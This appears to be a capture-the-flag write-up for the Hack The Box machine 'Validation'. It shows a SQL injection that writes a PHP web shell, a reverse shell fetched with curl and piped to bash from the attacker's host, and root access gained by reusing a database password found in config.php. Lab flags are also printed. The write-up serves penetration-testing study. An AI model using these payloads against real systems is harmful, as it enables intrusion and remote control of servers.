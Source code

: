 ```yaml
---
title: "Validation from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Validation from HTB
`nmap`gave this
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
8080/tcp open  http    nginx
```
intercepting `join`process with `burpsuite + intercept`we get that after joining we receive cookie of our name in `md5`hash
I gave name `help` and got : 657f8b8da628ef83cf69101b6817150a
now in terminal
```bash
echo -n "help" | md5sum
657f8b8da628ef83cf69101b6817150a
```
same thing
So the theory is that with all that `users`joining there is an `sql database`
```bash
username=help&country=Brazil -- -
```
Returned no `error`so that means it is vulnerable to `sql injection`
`turn intercept on`and then send this payload
```
username=help&country=Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```
upload `cmd`
Didn't return error so that means it uploaded
```bash
/shell.php?cmd=id
admin admin' or 1=1 -- - helo uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Now get `reverse shell`
```bash
cat reverse.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.16.7/1234 0>&1'

python3 -m http.server 8001

http://10.10.11.116/shell.php?cmd=curl 10.10.16.7:8001/reverse.sh|bash
```
***
User Flag is: 4a5379b8ce73567c327cc9686e4cf4c0
***
```bash
www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```bash
There is an password which can be used for `root`
```
www-data@validation:/var/www/html$ su -
su -
Password: uhc-9qual-global-pw
id
uid=0(root) gid=0(root) groups=0(root)
```
***
Root Flag is: 94ba684e8cc1b2869c0b5a038b96044b
***
![](/assets/images/2024-08-24_03-00-19.png)
